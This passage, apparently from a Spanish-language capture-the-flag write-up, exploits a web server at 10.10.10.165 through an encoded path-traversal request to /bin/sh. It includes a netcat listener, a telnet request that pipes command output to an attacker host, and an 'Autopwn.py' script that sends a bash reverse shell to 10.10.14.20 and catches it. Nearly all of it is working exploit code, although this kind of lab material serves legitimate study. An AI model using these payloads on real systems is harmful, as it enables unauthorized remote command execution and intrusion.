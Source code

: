 1. En una terminal

    ```bash
    nc -nlvp 443
    ```

1. En otra terminal

    ```bash
    telnet 10.10.10.165 80
    POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
    Content-Length: 1

    whoami | nc 10.10.14.20 443
    ```

Se ve `www-data` en la primera terminal.

Ya podemos crearnos el script.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Autopwn.py {-}

```python
#!/usr/bin/python3

import requests
import sys
import signal
import pdb
import threading
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./bin/sh"
lport = 443

def makeRequest():

    data_post = {
        b'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    p1 = log.progress("Acceso")
    p1.status("Ganando acceso al sistema")

    shell = listen(lport, timeout=5).wait_for_connection()
```